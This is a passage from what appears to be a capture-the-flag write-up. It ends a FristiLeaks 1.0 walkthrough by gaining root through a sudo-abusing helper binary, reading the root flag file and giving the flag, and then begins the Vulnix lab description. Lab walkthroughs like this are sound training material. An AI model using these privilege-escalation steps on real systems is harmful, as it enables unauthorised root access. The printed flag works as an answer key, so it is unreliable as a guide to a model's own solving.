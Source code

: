 ```bash
bash-4.1$ 
```

Spawning a shell as the `root` user would be as simple as doing this


```bash
bash-4.1$ sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom bash
bash-4.1# whoami
root
bash-4.1# cd /root
bash-4.1# ls
fristileaks_secrets.txt
bash-4.1# cat fristileaks_secrets.txt
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]

I wonder if you beat it in the maximum 4 hours it's supposed to take!

Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)


Flag: Y0u_kn0w_y0u_l0ve_fr1st1


bash-4.1# 
```


> Please Take note that when stabilizing shells `python2` should be use.


## Challenge 8 - HackLAB: Vulnix


#### Description:


```
Here we have a vulnerable Linux host with configuration weaknesses rather than purposely vulnerable software versions (well at the time of release anyway!)

The host is based upon Ubuntu Server 12.04 and is fully patched as of early September 2012. The details are as follows:

- Architecture: x86
- Format: VMware (vmx & vmdk) compatibility with version 4 onwards
- RAM: 512MB
- Network: NAT
- Extracted size: 820MB
- Compressed (download size): 194MB – 7zip format – 7zip can be obtained from here
- MD5 Hash of Vulnix.7z: 0bf19d11836f72d22f30bf52cd585757    

The goal; boot up, find the IP, hack away and obtain the trophy hidden away in /root by any means you wish – excluding the actual hacking of the vmdk

Free free to contact me with any questions/comments using the comments section below.

Enjoy!
```
